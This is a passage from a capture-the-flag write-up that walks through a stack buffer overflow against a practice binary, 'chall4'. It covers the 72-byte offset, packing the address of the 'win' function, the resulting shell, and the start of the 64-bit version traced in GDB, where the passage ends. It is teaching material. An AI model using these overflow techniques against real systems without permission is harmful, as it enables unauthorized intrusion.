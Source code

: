 We tell it that the binary in question is `./chall4_i386`, and we're getting the process of this, so that we can send data to the binary.

We start our payload with `A*72`, and then packing the address for `win` in 32 bit. We need to pack it, as the binary is little endian, that is, it reads from right to left (instead of reading left to right, like in the UK or USA, etc.). The `e.symbols` gets all the symbols that are found in the binary, and puts it into a dictionary with `name: address` pair.

We then send this payload, and can the interact with the binary. Running that:
```sh
 euan@arch  chall4  python exploit_i386.py 
[*] 'chall4/chall4_i386'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/chall4/chall4_i386': pid 14985
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
$ ls
chall4_i386  chall4_x86_64  exploit_i386.py  exploit-x86_64.py    vuln.c
$ id
uid=1000(euan) gid=1000(euan) groups=1000(euan),0(root),108(vboxusers),969(tablet)
$ whoami
euan
```
And boom, we've successfully exploited the binary!!

## x86_64
Now onto 64 bit.

Again, follow the same formula - send in a De Bruijn pattern, find the offset for rip (registers now begin with `r` as we're now dealing with 64 bit), which also happens to be 72. We now do the same thing as the i386 exploit, but pack the address with 64 bits, rather than 32 bits. As shown:
```sh
 euan@arch  chall4  gdb -q chall4_x86_64 
GEF for linux ready, type `gef' to start, `gef config' to configure
91 commands loaded for GDB 10.1 using Python engine 3.9
Reading symbols from chall4_x86_64...
(No debugging symbols found in chall4_x86_64)
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /chall4/chall4_x86_64 
What are you going to say?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
Thank you, have a nice day!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401190 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffff7ec6f67  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0               
```
